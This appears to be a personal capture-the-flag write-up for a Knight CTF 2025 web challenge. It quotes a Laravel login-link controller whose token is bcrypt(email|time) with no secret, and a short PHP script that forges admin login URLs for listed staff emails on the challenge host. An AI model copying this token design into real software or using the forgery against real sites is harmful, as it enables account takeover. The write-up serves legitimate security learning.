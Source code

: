 ```yaml
---
date: 2025-01-22
description: Insecure login function using tokens
platform: Knight CTF 2025
categories: Web
tags:
  - insecure-design
  - broken-access-control
duration:
---
```

Laravel application with standard register/login functionality. To get the flag user must elevate privileges to admin. 
- `requestLoginUrl` - generates login URL to be used for `loginUsingLink`
- `loginUsingLink` - login using email address, with valid tokens

# Vulnerability

## AuthController.php
```php
    public function requestLoginUrl(Request $request) {
        $request->validate([
            'email' => 'required|email',
        ]);

        $user = User::where('email', $request->email)->first();

        if (!$user) {
            return back()->withErrors(['email' => 'Email not found']);
        }

        $time = time();
        $data = $user->email . '|' . $time;
        $token = bcrypt($data);

        $loginUrl = url('/login-link?token=' . urlencode($token) . '&time=' . $time . '&email=' . urlencode($user->email));

        return back()->with('success', 'Login link generated, but email sending is disabled.');
    }
    public function loginUsingLink(Request $request) {
        $token = $request->query('token');
        $time = $request->query('time');
        $email = $request->query('email');

        if (!$token || !$time || !$email) {
            return response('Invalid token or missing parameters', 400);
        }

        if (time() - $time > 3600) {
            return response('Token expired', 401);
        }

        $data = $email . '|' . $time;
        if (!Hash::check($data, $token)) {
            return response('Token validation failed', 401);
        }

        $user = User::where('email', $email)->first();

        if (!$user) {
            return response('User not found', 404);
        }

        session(['user_id' => $user->id]);
        session(['is_admin' => $user->is_admin]);

        return redirect()->route('users');
    }
```

## web.php
```php
    Route::get('/login-link', [AuthController::class, 'loginUsingLink']);
```
# notes: 
- valid emails can be found in contact page 
- bcrypt rounds 12 `__solve.py`?

## login_link_generator.php
```php
<?php
$emails = [
    "admin1@knightconnect.com",
    "admin@knightconnect.com",
    "tech@knightconnect.com",
    "sponsorship@knightconnect.com",
    "partnership@knightconnect.com",
    "nomanprodhan@knightconnect.com",
    "jannat@knightconnect.com",
    "hello@knightconnect.com",
    "root@knightconnect.com"
];
foreach ($emails as $email) {
    $time = time();
    $data = $email.'|'.$time;
    $token = password_hash($data, PASSWORD_BCRYPT);
    $login_url = "https://kctf2025-knightconnect.knightctf.com/login-link?" . 
        "token=" . urlencode($token) . 
        "&time=" . $time . 
        "&email=" . urlencode($email);

    echo "link: \n$login_url\n\n";
}
?>
```

